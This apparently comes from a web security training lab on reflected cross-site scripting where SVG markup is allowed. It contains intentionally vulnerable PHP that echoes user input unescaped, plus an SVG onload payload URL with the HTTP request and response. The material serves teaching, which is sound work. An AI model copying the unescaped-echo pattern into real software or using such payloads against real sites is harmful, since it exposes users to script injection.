

## Lab Exercise: Reflected XSS with SVG Markup Allowed

### Setup

For this lab, we will simulate a web application that allows SVG markup in user input. We will use a simple HTML form to demonstrate the vulnerability.

#### Vulnerable Code

Here is a simplified version of the vulnerable code:

```html
<!DOCTYPE html>
<html>
<head>
    <title>XSS Lab</title>
</head>
<body>
    <form action="/submit" method="GET">
        <label for="svgInput">Enter SVG:</label>
        <input type="text" id="svgInput" name="svgInput">
        <button type="submit">Submit</button>
    </form>

    <?php
        $svgInput = $_GET['svgInput'] ?? '';
        echo "<div>$svgInput</div>";
    ?>
</body>
</html>
```

This code takes user input from a form and directly outputs it into the HTML response.

### Exploitation

To exploit this vulnerability, an attacker can craft a URL that includes malicious SVG markup:

```plaintext
http://example.com/?svgInput=<svg onload="alert('XSS')">
```

When the user visits this URL, the browser will execute the `onload` event in the SVG, triggering the alert box.

### Full HTTP Request and Response

#### HTTP Request

```http
GET /?svgInput=%3Csvg%20onload%3D%22alert%28%27XSS%27%29%22%3E HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 234
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>XSS Lab</title>
</head>
<body>
    <form action="/submit" method="GET">
        <label for="svgInput">Enter SVG:</label>
        <input type="text" id="svgInput" name="svgInput">
        <button type="submit">Submit</button>
    </form>

    <div><svg onload="alert('XSS')"></div>
</body>
</html>
```

### Expected Result

When the user visits the crafted URL, the browser will execute the `onload` event in the SVG, displaying an alert box with the message "XSS".

### Mermaid Diagram

A sequence diagram illustrating the interaction between the user, the server, and the browser:



---
<!-- nav -->
[[05-Identifying Input Fields|Identifying Input Fields]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/20-Lab 19 Reflected XSS with some SVG markup allowed/00-Overview|Overview]] | [[07-Setting Up the Lab Environment|Setting Up the Lab Environment]]
